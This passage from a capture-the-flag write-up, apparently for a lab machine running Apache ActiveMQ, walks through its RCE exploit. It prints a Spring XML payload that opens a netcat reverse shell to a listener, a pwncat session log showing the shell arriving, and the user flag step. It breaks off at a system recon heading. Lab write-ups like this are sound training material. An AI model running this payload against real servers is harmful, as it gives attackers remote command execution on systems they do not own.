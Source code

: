 Now that we validated it, let's actually setup the reverse shell.
First, change the POC payload to start the reverse shell.
*Had to experiment a little bit with esaping characters such as `>`.*
```xml
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg >
            <list>
	            <value>bash</value>
	            <value>-c</value>
	            <value>rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2&gt;&amp;1|nc 10.10.14.44 9999 &gt;/tmp/f</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
```

Then, we must setup our listener.
I like to use [pwncat-cs](https://github.com/calebstewart/pwncat) by [Caleb Stewart](https://github.com/calebstewart).
```
$ pwncat-cs --port 9999 --platform linux
[11:16:26] Welcome to pwncat 🐈!                                                                                                             __main__.py:164
[11:25:15] received connection from 10.10.11.243:59064                                                                                            bind.py:84
[11:25:17] 0.0.0.0:9999: upgrading from /usr/bin/dash to /usr/bin/bash                                                                        manager.py:957
[11:25:21] 10.10.11.243:59064: registered new host w/ db                       
(remote) activemq@broker:/opt/apache-activemq-5.15.15/bin$ id
uid=1000(activemq) gid=1000(activemq) groups=1000(activemq)
```

Perfect, we have a working reverse shell.

## User Flag
Since we already have user access with the [ActiveMq RCE](#activemq-rce), we already have the required permissions to just read the user flag.

Navigate to `/home/activemq` and read file `user.txt`, and :tada: you got the user flag.

We could use the user access to gain a more permanent access without exploiting the vulnerability.
However, since the vulnerability is very easy to perform, we won't do it.

# System Recon
Next, recon the system to find possible privilege escalation vectors.
